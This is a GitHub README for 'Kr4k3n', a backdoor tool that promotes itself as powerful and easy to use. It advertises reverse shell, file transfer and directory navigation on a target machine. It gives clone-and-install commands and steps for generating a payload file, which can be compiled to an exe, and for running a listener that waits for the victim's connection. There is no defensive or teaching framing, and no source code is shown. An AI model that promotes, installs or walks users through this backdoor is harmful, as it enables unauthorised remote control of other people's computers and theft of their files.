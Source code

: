 # Kr4k3n Backdoor Tool
 Powerful and easy to use Backdoor.

![download(1)](https://user-images.githubusercontent.com/56045160/115126114-d60eb480-9f9a-11eb-909d-df919b9a970c.gif)

## How it works
```
Using this tool you can easily and fast generate target file that will give you many features. 
Firstly, you can have access to target shell. 
Secondly, you can make file transfers between your and target machines. 
Thirdly, you can make directory movements.
```
## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:

One line installation:
```
$ git clone https://github.com/YanOScompany/kr4k3n.git && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git clone https://github.com/YanOScompany/kr4k3n.git
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

[Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

Example usage:
```

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get 11.png, kraken-push 11.png (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

